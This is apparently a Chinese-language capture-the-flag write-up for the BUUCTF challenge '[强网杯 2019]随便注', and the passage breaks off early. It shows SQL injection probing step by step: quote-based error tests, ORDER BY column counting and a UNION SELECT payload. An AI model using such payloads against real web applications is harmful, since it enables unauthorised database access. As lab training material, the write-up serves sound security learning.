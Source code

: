### [强网杯 2019]随便注（堆叠注入）

#### 常规解法：

打开后有一个输入框，由题目可知为注入题，输入`1'`发现报错，改为`1'#`有正常回显，再尝试输入`1' or '1'='1`

![image-20200909102631919](BUUCTF——Web.assets/image-20200909102631919.png)
开始查找输入口的个数

```sql
1' order by 1#
```
有正常的回显，继续加数，加到三的时候开始报错
```sql
1' order by 3#
```

![image-20200909103432686](BUUCTF——Web.assets/image-20200909103432686.png)

说明只有两个字段。

尝试注入：

```sql
1' union select 1,2#
```
回显了一些奇怪的东西

![image-20200909104419028](BUUCTF——Web.assets/image-20200909104419028.png)
